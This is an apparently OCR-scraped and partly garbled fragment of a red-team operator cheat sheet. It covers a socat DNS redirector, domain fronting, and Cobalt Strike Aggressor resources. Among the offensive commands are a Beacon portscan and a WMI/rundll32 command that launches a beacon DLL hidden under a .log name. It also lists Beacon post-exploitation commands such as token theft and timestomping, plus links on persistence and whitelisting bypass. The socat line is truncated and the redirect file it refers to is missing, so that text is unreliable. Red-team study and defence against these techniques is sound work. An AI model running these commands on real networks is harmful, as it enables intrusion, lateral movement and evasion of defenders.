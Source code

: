     socat udp4-recvfrom:53,reuseaddr,fork udp4-sendto:; echo -ne

Simple HTTP Redirect

Save as a file like the following as redirect.html and map to root "/" on your Team Server. Casual browsing to the root of your domain will then simply redirect.

  

## Domain Fronting

* https://github.com/rvrsh3ll/FindFrontableDomains

## Cobalt Strike

[Gettin' Down with Aggressor Script][15]  
https://github.com/killswitch-GUI/CobaltStrike-ToolKit/blob/master/DA-Watch.cna  
https://github.com/Und3rf10w/Aggressor-scripts

    portscan 10.42.175.0/26 21,22,23,25,80,443,445,1433,3389,8080,8443

_Start Remote Beacon DLL via iwmi_

    powerpick iwmi -class Win32_Process -name create -ArgumentList "rundll32.exe c:userspubliclibrariessmb_beacon.dll.log0,StartW"

### OPSEC Considerations for Beacon Commands

[Blog.Cobaltstrike.com – OPSEC Considerations For Beacon Commands][16]

A good operator knows their tools and has an idea of how the tool is accomplishing its objectives on their behalf. This blog post surveys Beacons commands and provides background on which commands inject into remote processes, which commands spawn jobs, and which commands rely on cmd.exe or powershell.exe.

_API-only_  
These commands are built-into Beacon and rely on Win32 APIs to meet their objectives.

    cd
    cp
    download
    drives
    exit
    getuid
    kerberos_ccache_use
    kerberos_ticket_purge
    kerberos_ticket_use
    jobkill
    kill
    link
    ls
    make_token
    mkdir
    mv
    ppid
    ps
    pwd
    rev2self
    rm
    rportfwd
    socks
    steal_token
    timestomp
    unlink
    upload


[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond